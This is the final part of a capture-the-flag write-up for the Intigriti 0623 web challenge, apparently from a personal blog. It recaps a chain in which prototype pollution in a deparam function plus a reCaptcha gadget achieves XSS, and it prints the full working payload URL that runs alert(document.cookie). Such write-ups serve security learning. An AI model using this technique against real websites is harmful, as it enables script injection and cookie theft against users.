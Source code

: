## Final payload
As a quick recap. Or TL;DR;
* We clean `window.recaptcha` by using a dot at the end of the domain
* We pollute `window.recaptcha` using a prototype pollution vulnerability in the `deparam` function
* We pollute the `srcdoc` propriety, as seen in the PoC that uses reCaptcha as a gadget
* We pollute the `sitekey` propriety, as it is required for `reCaptcha` to work
* We pass an html element (img for example) with a `class` attribute set to `g-recaptcha` in the name variable
  
We put everything togheter and we get:
```
https://challenge-0623.intigriti.io./challenge/?name=%3Cdiv%20class%3D%22g-recaptcha%22/%3E&__proto__[recaptcha]=true&__proto__[srcdoc][]=%3Cscript%3Ealert(document.cookie)%3C/script%3E&__proto__[sitekey]=test
```

You can visit the link above by clicking [here](https://challenge-0623.intigriti.io./challenge/?name=%3Cdiv%20class%3D%22g-recaptcha%22/%3E&__proto__[recaptcha]=true&__proto__[srcdoc][]=%3Cscript%3Ealert(document.cookie)%3C/script%3E&__proto__[sitekey]=test) and you will get:

![fired](../assets/fired0623.png){: width="600" height="400" }
_POPUP!_

## Conlusion
As with any challenge, I learned a lot. And I probably learned even more by trying and going thorugh some rabbit holes, exploring what made me uncomfortable and what I initially discarded.

Some takeaways:
* Go through the documentation
* Reporduce and experiment locally
* Don't be afraid to try something new
* Stay hydrated🍺

